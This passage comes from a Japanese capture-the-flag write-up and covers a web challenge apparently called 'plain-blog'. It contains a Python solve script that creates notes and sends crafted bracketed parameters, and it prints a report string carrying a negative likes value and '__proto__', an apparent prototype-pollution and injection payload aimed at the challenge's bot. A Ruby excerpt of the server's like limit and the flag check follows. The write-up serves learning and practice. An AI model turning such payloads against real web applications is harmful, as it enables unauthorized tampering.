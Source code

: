 ```python
def update_note(id: str, data):
    res = httpx.put(
        f"{API_BASE_URL}/api/post/{id}",
        data=data,
    )
    return res.json()


uuid1 = create_note("x", "x")

uuid2 = create_note("x", "x")
update_note(uuid2, {"headers[Content-Type]": "text/plain", "title[x]": "", "content[x]": "", "like[x]": ""})

# botにいいねしてもらうpostのURL
print(f"{FRONTEND_BASE_URL}/#page=post&id={uuid1}")

# reportする文字列
print(f"{urllib.parse.quote(uuid1+'/like?likes=-100000000000000000000000000000#')},{uuid2},__proto__")
```

うまくできてます:

![](./img/plain-blog-03.png)

あとは
```ruby
    if (posts[id]['like'] + likes) > MAX_LIKES
        return { 'error' => 'too much likes' }.to_json
    end
    posts[id]['like'] += likes

    # get 1,000,000,000,000 likes to capture the flag!
    if posts[id]['like'] >= 1_000_000_000_000
        posts[id]['permission']['flag'] = true
    end
```
を突破するだけ...いや不可能です。

`MAX_LIKES`は`5000`なので、現実的な時間内に`1_000_000_000_000`以上にすることはできません。


[^top-01]: 一方で、ひとりでもくもくと問題に挑んでフラグを取りに行くのも達成感があって気持ちが良いので、どちらが良いかは微妙なところ。
[^warmuprofile-01]: writeupを書いてる途中で気づいたんですが、warmup profileでなくてwarmu**p**rofileだったのか。文字遊び好きです。
[^warmuprofile-02]: [作問者writeup](https://nanimokangaeteinai.hateblo.jp/entry/2023/07/17/141919#Web-137-Warmuprofile-48-solves)によれば、2つセッションつくるのが想定だったみたいです。たしかに。
[^jqi-01]: レスポンス内容の差異がなかったとしてもtime-basedなオラクルはたぶん構成可能です。やりたくなかったので、親切設計でありがたかったです。
[^plain-blog-01]: 歴史的経緯・慣習的なものなので必要という側面もあるかもしれないですが、それはそれとして。
